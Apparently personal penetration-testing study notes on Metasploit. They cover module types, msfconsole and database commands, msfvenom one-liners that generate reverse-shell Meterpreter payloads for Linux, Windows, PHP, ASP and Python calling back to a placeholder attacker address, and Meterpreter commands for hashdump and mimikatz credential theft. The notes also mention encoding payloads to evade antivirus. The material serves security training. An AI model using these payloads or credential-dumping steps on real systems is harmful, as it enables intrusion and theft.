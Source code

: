 # Metasploit

## **Modules**

**Auxiliary:** Any supporting module, such as scanners, crawlers and fuzzers, can be found here.

**Encoders:** Encoders will allow you to encode the exploit and payload in the hope that a signature-based antivirus solution may miss them.

**Evasion:** While encoders will encode the payload, they should not be considered a direct attempt to evade antivirus software.

**Exploits:** Exploits, neatly organized by target system.

**NOPs:** NOPs (No OPeration) do nothing, literally.

**Payloads:** Payloads are codes that will run on the target system.

You will see three different directories under payloads: singles, stagers and stages.

* **Singles:** Self-contained payloads (add user, launch notepad.exe, etc.) that do not need to download an additional component to run.
* **Stagers:** Responsible for setting up a connection channel between Metasploit and the target system. Useful when working with staged payloads. “Staged payloads” will first upload a stager on the target system then download the rest of the payload (stage). This provides some advantages as the initial size of the payload will be relatively small compared to the full payload sent at once.
* **Stages:** Downloaded by the stager. This will allow you to use larger sized payloads.

Metasploit has a subtle way to help you identify single (also called “inline”) payloads and staged payloads.

* generic/shell\_reverse\_tcp
* windows/x64/shell/reverse\_tcp

Both are reverse Windows shells. The former is an inline (or single) payload, as indicated by the “\_” between “shell” and “reverse”. While the latter is a staged payload, as indicated by the “/” between “shell” and “reverse”.

**Post:** Post modules will be useful on the final stage of the penetration testing process listed above, post-exploitation.



## Msfconsole

To search for exploits use "search"

**show options** - to show different options

show payloads

**set** - to set any option

**unset** - to clear it; **unset all**

**setg** - set values to be used for all modules; **unsetg**

**exploit/run** - run the exploit; **exploit -z** -- run it in the background

**check** - will check if the target is vulnerable without exploiting it.

**sessions** - shows running sessions

**sessions -i \<id>** - interact with a specific session

**background** - to background the session prompt



### Start database

systemctl start postgresql

msfdb init

msfconsole

msf6 > db\_status

msf6 > workspace

msf6 > workspace -a pentest1



## Msfvenom

**msfvenom -l payloads** ### show available payloads

**msfvenom --list formats** ### list supported output formats

**encoders** ### with the "-e" parameter; examle ->msfvenom -p php/meterpreter/reverse\_tcp LHOST=10.10.186.44 -f raw **-e** php/base64

handler ### used to receive connections

&#x20;    use exploit/multi/handler

Different payloads:

* Linux Executable and Linkable Format (elf)
  * msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev\_shell.elf
  * The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the target machine command line.
* Windows
  * msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev\_shell.exe
* PHP
  * msfvenom -p php/meterpreter\_reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev\_shell.php
* ASP
  * msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev\_shell.asp
* Python
  * msfvenom -p cmd/unix/reverse\_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev\_shell.py

## Meterpreter

meterpreter > getpid

meterpreter > ps

msfvenom --list payloads | grep meterpreter ### listing meterpreter payloads

meterpreter > help&#x20;

meterpreter > hashdump (migrate to lssas.exe process first, than hashdump to get the hashes)

meterpreter > search -f flag2.txt ### search for a specific file

meterpreter > load kiwi ### mimikatz

